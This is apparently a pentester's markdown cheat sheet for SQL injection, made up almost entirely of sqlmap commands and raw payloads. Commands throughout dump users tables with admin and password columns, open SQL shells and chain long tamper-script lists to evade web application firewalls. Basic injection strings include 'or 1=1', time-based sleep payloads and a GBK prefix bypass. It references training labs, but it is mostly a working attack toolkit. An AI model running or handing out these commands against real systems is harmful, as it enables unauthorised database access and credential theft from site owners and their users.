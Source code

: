 Use Prefix and Suffix for more challenging attacks
---------------------------------------------
```
# See example 9 https://pentesterlab.com/exercises/web_for_pentester_II/course
# Example Chinese char set https://www.fileformat.info/info/charset/GBK/list.htm
sqlmap -r ./sqlmap-03.txt --level=5 --risk=3 --batch --prefix=%bf%27 --dbms=mysql
```
Useful Switches
----------------
```
–-crawl=4 (depth of pages to crawl)
--proxy=http://127.0.0.1:8080
–identify-waf


SQLite sample 
-------------
```
# NOTE: Notice the -D parameter is "SQLite_masterdb", this appears to be the default database for SQLite. 
# Other possible -D parameter could be "main"
sqlmap -r ./sqlmap-01.txt --dbms=SQLite --batch --level=5 --risk=3 -D SQLite_masterdb -T users -C admin,password,username --dump

## Get --sql-shell
sqlmap -r ./sqlmap-01.txt --dbms=SQLite --batch --level=5 --risk=3 -D SQLite_masterdb -T users -C admin,password,username --dump --sql-shell

# List tables
SELECT name FROM sqlite_master WHERE type='table';
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

# Show tables and columns
SELECT sql FROM sqlite_master
```

SQLMap Tamper Data
-------------
```
sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1’ --level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```
General Tamper Data
```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
MSSQL
```
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,percentage,randomcase,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
MYSQL
```
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```
SQLInjection Basic Stuff
-------------
```
' or 1=1 --
' or 1=1 or '1'='1
# If single quotes are blocked try delimiting them
/' or 1=1 or '1'='1
/' or 1=1 --
'"
105 OR 1=1
" or ""="
'%2b(select*from(select(sleep(20)))a)%2b'%bf%27
'+(select*from(select(sleep(5)))a)+'
```
Interesting items that can be used to prefix and suffix attacks
---------------------
```
prefix='('
prefix='\xBF'''
prefix='%bf%27'
prefix=''''
# Attack using the middle of the url
sqlmap.py -p host -u "example.com?host=" --prefix "http://anotherexample.com?bar=1" --suffix "&restoftheurl=whatever"



```
Sqlmap quick cheat sheet
-------------
```
sqlmap -u ${url}
sqlmap -u ${url} --dbs
sqlmap -u ${url} -D ${database} --tables
sqlmap -u ${url} -D ${database} -T ${table} --columns
sqlmap -u ${url} -D ${database} -T ${table} -C ${col1},${col2} --dump
```
